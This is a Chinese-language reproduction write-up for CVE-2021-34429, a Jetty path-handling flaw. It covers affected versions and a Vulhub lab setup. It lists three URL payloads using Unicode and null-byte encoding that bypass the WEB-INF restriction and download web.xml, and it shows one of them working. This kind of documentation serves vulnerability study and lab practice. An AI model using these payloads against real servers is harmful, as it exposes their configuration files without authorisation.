 # CVE-2021-34429

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty WEB-INF 敏感信息泄露漏洞



## 0x01 漏洞描述

Eclipse Jetty 是一个 Java Web 服务器和 Java Servlet 容器。

Jetty 9.4.40 修复了一个模糊路径信息泄露漏洞[CVE-2021-28164](https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28164)，CVE-2021-34429 是它的变种和绕过。

有 3 种类型的有效载荷可以泄露以下内容`WEB-INF/web.xml`：

- 基于 Unicode 的 URL 编码：`/%u002e/WEB-INF/web.xml`
- `\0`有`.`错误：`/.%00/WEB-INF/web.xml`
- `\0`有`..`错误：`/a/b/..%00/WEB-INF/web.xml`

## 0x02 影响版本

```
9.4.37 ≤ Eclipse Jetty ≤ 9.4.42
10.0.1 ≤ Eclipse Jetty ≤ 10.0.5
11.0.1 ≤ Eclipse Jetty ≤ 11.0.5
```

## 0x03 环境搭建

Vulhub执行以下命令启动 Jetty 9.4.40 服务器。

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`查看示例页面。

![image-20240903211524216](./image/image-20240903211524216.png)

## 0x04 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![image-20240903211547410](./image/image-20240903211547410.png)

使用`/%u002e`来绕过限制下载web.xml：

```text
/%u002e/WEB-INF/web.xml
```

![image-20240903211638249](./image/image-20240903211638249.png)